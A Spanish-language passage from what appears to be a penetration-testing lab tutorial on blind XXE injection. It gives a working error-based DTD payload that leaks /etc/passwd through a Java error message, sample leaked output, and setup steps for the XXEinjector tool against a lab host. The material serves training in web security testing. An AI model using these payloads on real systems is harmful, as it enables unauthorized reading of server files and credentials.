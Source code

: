 ### Explotación de ciegas XXE para recuperar datos a través de mensajes de error

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">  
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">  
%eval;  
%error;
```

Este DTD realiza los siguientes pasos:

-   Define una entidad de parámetro XML llamada `file`, que contiene el contenido del `/etc/passwd` archivo.
-   Define una entidad de parámetro XML llamada `eval`, que contiene una declaración dinámica de otra entidad de parámetro XML llamada `error`. La `error` entidad se evaluará cargando un archivo inexistente cuyo nombre contenga el valor de la `file` entidad.
-   Utiliza la `eval`entidad, lo que provoca `error` que se realice la declaración dinámica de la entidad.
-   Utiliza la `error` entidad, por lo que su valor se evalúa al intentar cargar el archivo inexistente, lo que da como resultado un mensaje de error que contiene el nombre del archivo inexistente, que es el contenido del `/etc/passwd` archivo.

Invocar la DTD externa maliciosa resultará en un mensaje de error como el siguiente:

```bash
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash  
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin  
bin:x:2:2:bin:/bin:/usr/sbin/nologin  
...
```

## EXFILTRACION DE DATOS A CIEGAS CON XXEINJECTOR

podemos automatizar el proceso de exfiltración ciega de datos XXE con herramientas. Una de esas herramientas es [XXEinjector](https://github.com/enjoiz/XXEinjector) .

```bash
git clone https://github.com/enjoiz/XXEinjector.git
```

Una vez que tengamos la herramienta, podemos copiar la solicitud HTTP de Burp y escribirla en un archivo para que la use la herramienta. No debemos incluir los datos XML completos, solo la primera línea, y escribir después `XXEINJECT` como un localizador de posición para la herramienta:

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```
